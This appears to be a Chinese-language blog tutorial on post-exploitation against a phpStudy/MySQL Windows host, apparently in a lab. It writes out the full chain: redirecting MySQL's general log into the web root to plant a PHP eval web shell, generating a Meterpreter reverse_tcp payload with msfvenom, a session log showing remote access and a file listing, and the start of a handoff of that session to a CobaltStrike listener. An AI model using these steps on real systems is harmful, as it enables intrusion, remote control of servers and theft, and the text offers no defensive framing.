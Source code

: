 第一步手动开启日志

```sql
set global general_log='on';
```

然后 查看是否开启成功

```sql
show variables like "general_log%";
```
设置日志输出的路径
```sql
set global  general_log_file ="C:\\phpStudy\\WWW\\test.php";
```
然后只要执行的语句都会写入到日志文件中，所以我们查询语句
```sql
select "<?php eval($_POST['a']);?>";
```
发现能成功获取shell
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200112180118772.PNG?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhaWRlMjAxMg==,size_16,color_FFFFFF,t_70)
然后利用菜刀连接，上传反弹木马，获取一个meterpreter控制会话：
```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.54.130 LPORT=4444 -f exe > shell.exe
```
```shell
msf5 exploit(multi/handler) > run

[*] Started bind TCP handler against 192.168.54.129:4444
[*] Sending stage (206403 bytes) to 192.168.54.129
[*] Meterpreter session 1 opened (192.168.54.130:33269 -> 192.168.54.129:4444) at 2020-01-12 07:39:32 -0500

meterpreter >
meterpreter > dir
Listing: C:\phpStudy
====================

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
40777/rwxrwxrwx   0        dir   2019-10-13 04:39:24 -0400  Apache
40777/rwxrwxrwx   0        dir   2019-10-13 04:39:24 -0400  IIS
40777/rwxrwxrwx   4096     dir   2019-10-13 04:39:24 -0400  MySQL
40777/rwxrwxrwx   4096     dir   2019-10-13 04:39:24 -0400  SQL-Front
40777/rwxrwxrwx   4096     dir   2019-10-13 04:39:24 -0400  WWW
40777/rwxrwxrwx   0        dir   2019-10-13 04:39:24 -0400  backup
40777/rwxrwxrwx   0        dir   2019-10-13 04:39:24 -0400  nginx
40777/rwxrwxrwx   4096     dir   2019-10-13 04:39:24 -0400  php
100777/rwxrwxrwx  2471424  fil   2019-10-13 04:39:38 -0400  phpStudy.exe
100666/rw-rw-rw-  113      fil   2019-10-13 04:39:25 -0400  phpStudy官网.url
100666/rw-rw-rw-  522752   fil   2019-10-13 04:39:38 -0400  phpshao.dll
100777/rwxrwxrwx  7168     fil   2020-01-12 07:36:46 -0500  shell.exe
40777/rwxrwxrwx   4096     dir   2019-10-13 04:39:24 -0400  tmp
40777/rwxrwxrwx   4096     dir   2019-10-13 04:39:24 -0400  tools

meterpreter >
```
将会话信息派生给CS
首先在CobaltStrike中创建一个监听者，和上一步类似，这里host需要修改为CobaltStrike客户端IP，创建好之后便监听8099端口，等待着被控机连接
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200411164543473.PNG?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhaWRlMjAxMg==,size_16,color_FFFFFF,t_70#pic_center)
